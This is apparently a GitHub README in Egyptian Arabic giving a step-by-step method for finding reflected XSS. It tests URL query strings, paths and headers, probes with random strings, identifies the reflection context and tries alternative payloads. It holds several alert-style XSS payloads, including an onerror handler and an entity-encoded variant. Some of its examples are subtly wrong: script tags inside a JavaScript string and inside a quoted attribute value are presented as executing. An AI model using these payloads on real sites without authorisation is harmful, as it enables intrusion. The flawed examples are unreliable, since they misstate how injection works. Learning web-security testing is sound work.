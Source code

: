 ## 1. Test every entry point

أول خطوة في اختبار **XSS** هي إنك تختبر كل نقطة ممكن المستخدم يدخل منها بيانات. دي ممكن تكون في **URL**، **message body**، أو **HTTP headers**. لازم تتأكد إن مفيش أي مدخلات ممكن تنفذ **JavaScript** غير مصفى بشكل كويس.

### حالات التجربة:
- **URL Query String**:
    - لو عندك رابط زي ده:
      ```text
      https://example.com?username=user123
      ```
    - جرب تحقن فيه كود **XSS** زي:
      ```text
      https://example.com?username=<script>alert('XSS')</script>
      ```

- **URL File Path**:
    - لو الموقع بيستقبل بيانات من **file path**، زي:
      ```text
      https://example.com/file/abc123
      ```
    - جرب تحقن فيه كود **XSS** زي:
      ```text
      https://example.com/file/<script>alert('XSS')</script>
      ```

- **HTTP Headers**:
    - جرب تحقن كود **XSS** داخل **HTTP headers** زي:
      - **User-Agent**:
        ```text
        User-Agent: <script>alert('XSS')</script>
        ```
      - **Referer**:
        ```text
        Referer: <script>alert('XSS')</script>
        ```

---

## 2. Submit random alphanumeric values

الخطوة الجاية هي إنك تبعت قيم عشوائية (حروف وأرقام) في كل النقاط اللي جربتها فوق. ده هيساعدك تكتشف إذا كان **XSS** هيظهر في الاستجابة ولا لأ.

### حالات التجربة:
- **قيم عشوائية قصيرة**:
    - جرب تبعت قيمة عشوائية زي:
      ```text
      abc123xy
      ```
    - جرب تبعتها في **URL** زي:
      ```text
      https://example.com?username=abc123xy
      ```
    - لو القيمة ظهرت في الاستجابة زي:
      ```html
      <p>abc123xy</p>
      ```
      ده معناه إن القيمة انعكست بشكل مباشر من غير تصفية.

- **قيم عشوائية أطول**:
    - جرب تبعت قيمة أطول زي:
      ```text
      x1y2z3abcd789xyz
      ```
    - نفس الفكرة، اختبرها في **URL** أو **HTTP headers** وشوف لو في انعكاس.

---

## 3. Determine the reflection context

المرحلة دي بتعتمد على المكان اللي ظهرت فيه القيمة العشوائية في الاستجابة. هل ظهرت جوه **HTML tag**؟ ولا في **HTML attribute**؟ ولا جوه **JavaScript string**؟ لازم تحدد ده علشان تقدر تحقن **XSS** بشكل صحيح.

### حالات التجربة:
- **داخل HTML tags**:
    - لو القيمة ظهرت في **HTML tags**، زي:
      ```html
      <p>abc123xy</p>
      ```
    - تقدر تحقن كود **XSS** زي:
      ```html
      <p><script>alert('XSS')</script></p>
      ```

- **داخل HTML Attribute**:
    - لو القيمة ظهرت في **HTML attribute** زي:
      ```html
      <input type="text" value="abc123xy">
      ```
    - هنا ممكن تحقن كود **XSS** زي:
      ```html
      <input type="text" value="abc123xy" onclick="alert('XSS')">
      ```

- **داخل JavaScript string**:
    - لو القيمة ظهرت في **JavaScript string**، زي:
      ```javascript
      var username = 'abc123xy';
      ```
    - هنا تقدر تحقن كود **XSS** داخل الـ **JavaScript** زي:
      ```javascript
      var username = '<script>alert("XSS")</script>';
      ```

---

## 4. Test a candidate payload

بعد ما تحدد مكان انعكاس القيمة، جرب تحقن **XSS payload** مبدئي في المكان ده. جرب ترسل **payload** في الـ **URL** أو في الـ **headers** أو جوه الـ **HTML**، وشوف لو الكود اتنفذ.

### حالات التجربة:
- **داخل HTML**:
    - لو القيمة ظهرت في **HTML** زي:
      ```text
      https://example.com?username=<script>alert('XSS')</script>
      ```
    - لو الكود ده اتنفذ في المتصفح هيظهر **alert**.

- **داخل HTML Attribute**:
    - لو القيمة ظهرت داخل **attribute** زي:
      ```html
      <input type="text" value="<script>alert('XSS')</script>">
      ```
    - لو الكود ده اتنفذ هيشغل الـ **JavaScript**.

---

## 5. Test alternative payloads

لو **XSS payload** المبدئي ما اشتغلش، جرب **alternative payloads** تانية. فيه كذا طريقة ممكن تحقن بيها **XSS**.

### حالات التجربة:
- **بدائل لـ `<script>`**:
    - لو الـ **script** تم منعه، جرب كود زي ده:
      ```html
      <img src="x" onerror="alert('XSS')">
      ```

- **استخدام JavaScript event handlers**:
    - لو الكود جوه **HTML** أو **input**، جرب تحقن event handler زي:
      ```html
      <input type="text" value="abc123xy" onclick="alert('XSS')">
      ```

- **استخدام HTML Entities**:
    - لو فيه تصفية على الـ **script**، جرب تستخدم **HTML entities**:
      ```html
      <img src="x" onerror="&#97;&#108;&#101;&#114;&#116;('XSS')">
      ```

---

## 6. Test the attack in a browser

بعد ما تتأكد إن **XSS payload** شغالة في **Burp Repeater** أو أي أداة تانية، لازم تختبرها في متصفح حقيقي.

### حالات التجربة:
- **اختبار مع `alert()`**:
    - جرب تفتح الرابط في المتصفح زي:
      ```text
      https://example.com?username=<script>alert('XSS')</script>
      ```
    - لو ظهر **alert** في المتصفح، يبقى الهجوم نجح.

- **اختبار مع `console.log()`**:
    - جرب كود زي:
      ```javascript
      <script>console.log('XSS')</script>
      ```
    - لو الكود ظهر في الـ **console**، يبقى الهجوم نجح.

![image](https://github.com/user-attachments/assets/2557d1d1-6606-4515-b7de-e7f48e0b42a6)
![images](https://github.com/user-attachments/assets/d82d4076-013c-45d9-9ebc-5103e841d5d8) 
